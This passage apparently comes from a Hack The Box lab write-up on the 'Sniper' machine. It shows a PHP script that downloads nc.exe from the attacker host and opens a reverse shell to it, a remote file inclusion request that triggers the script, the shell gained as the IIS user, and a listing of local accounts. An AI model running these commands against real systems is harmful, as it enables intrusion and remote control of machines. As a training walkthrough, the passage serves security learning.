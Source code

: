 Creating a `.php` file to download `nc.exe` and connect back to us:
{% highlight bash %}
$ cat /root/Desktop/fileshare/rev.php
<?php
# Create a temp dir
system("mkdir C:\\tmp");
# Download nc.exe
system("curl http://10.10.XX.XX/nc.exe > C:\\tmp\\nc.exe");
# Establish reverse shell
system("C:\\tmp\\nc.exe -e cmd.exe 10.10.XX.XX 1337");
?>
{% endhighlight %}

Starting our listener:
{% highlight bash %}
$ nc -lvnp 1337
listening on [any] 1337 ...
{% endhighlight %}

Triggering our `.php` script and getting a shell:
{% highlight bash %}
$ curl 'http://sniper.htb/blog/?lang=\\10.10.XX.XX\public\shell.php'
{% endhighlight %}

{% highlight raw %}
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.151] 50128
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\blog>whoami
whoami
nt authority\iusr
{% endhighlight %}

# Enumeration (2)

Listing local users:
{% highlight raw %}
C:\inetpub\wwwroot\blog>net users
net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Chris                    DefaultAccount           
Guest                    WDAGUtilityAccount       
The command completed with one or more errors.
{% endhighlight %}
